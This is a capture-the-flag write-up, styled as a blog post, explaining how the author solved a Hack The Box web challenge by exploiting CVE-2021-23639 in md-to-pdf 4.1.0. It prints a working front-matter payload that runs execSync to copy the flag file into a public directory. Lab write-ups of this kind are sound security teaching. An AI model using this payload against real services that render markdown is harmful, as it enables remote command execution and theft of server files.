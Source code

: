 ```yaml
---
layout: post
title:  "HTB CTF - Blinkerfluids writeup"
date:   2022-05-20 08:30:00
tags: ["ctf-writeup"]
author: "Alex Ward"
---
```


![](https://i.postimg.cc/8P3t2K8M/Pasted-image-20220515091447.png)

A fairly simple solve. The site doesn't have much functionality and
the only input is the ability to use markdown to create an invoice.

<!--more-->

![](https://i.postimg.cc/pLFqRfx7/Pasted-image-20220515091519.png)

Even though the generated invoice weren't viewable in the app, viewing
the source code showed they were available under `/static/invoices/<uuid>.pdf`.

```tree
.
├── build-docker.sh
├── challenge
│   ├── database.js
│   ├── helpers
│   │   └── MDHelper.js
│   ├── index.js
│   ├── invoice.db
│   ├── package.json
│   ├── routes
│   │   └── index.js
│   ├── static
│   │   ├── css
│   │   │   ├── bootstrap.min.css
│   │   │   ├── easymde.min.css
│   │   │   └── main.css
│   │   ├── images
│   │   │   └── favicon.png
│   │   ├── invoices
│   │   │   └── <uuid>.pdf
│   │   └── js
│   │       ├── easymde.min.js
│   │       ├── jquery-3.6.0.min.js
│   │       └── main.js
│   └── views
│       └── index.html
├── config
│   └── supervisord.conf
├── Dockerfile
├── exploit.txt
└── flag.txt
```

The source shows that the markdown content is passed unsanitised to `makePDF`.

```js
router.post('/api/invoice/add', async (req, res) => {
    const { markdown_content } = req.body;

    if (markdown_content) {
        return MDHelper.makePDF(markdown_content)
            .then(id => {
```

`MDHelper.js` requires `md-to-pdf`, and the `package.json` reveals the
version to be `4.1.0`. A quick Google search later takes us to
[CVE-2021-23639](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880),
a vulnerability allowing Javascript to be run in the
[front matter](https://jekyllrb.com/docs/front-matter/) of the markdown.

```js
---js
(1+1;)
---
```

To get the flag I first tried `cat`ing the flag into the pdf, which didn't work.

Next, I spend some time faffing trying to get a reverse shell to work.

Finally, my brain woke up and I realised I could just `cat` the flag to a
readable directory (`./static/invoices/`).

```js
---js
((require("child_process")).execSync("cat /flag > ./static/invoices/flag.txt"))
---
```

